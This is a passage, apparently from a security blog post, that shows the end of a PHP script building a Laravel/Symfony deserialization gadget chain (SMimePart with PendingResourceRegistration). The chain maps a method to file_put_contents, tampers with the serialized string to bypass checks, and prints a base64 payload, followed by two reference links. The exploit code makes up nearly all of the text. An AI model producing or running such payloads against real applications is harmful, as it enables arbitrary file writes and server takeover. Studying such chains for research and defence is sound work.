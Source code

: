 ```
            $this->options = 8;
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart
    {
        private $headers = null;
    }
    class SMimePart extends AbstractPart
    {
        protected $_headers;
        public $DawnT0wn;
        function __construct()
        {
            $this->_headers = ["register" => "file_put_contents"];
            $this->DawnT0wn = new \Illuminate\Routing\PendingResourceRegistration();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/", "\\1\\3\\2\\4", serialize($pop));
    echo base64_encode(str_replace("i:9999", "R:2", $ser));
}
```





参考链接

https://xz.aliyun.com/t/11362

http://tttang.com/archive/1603/
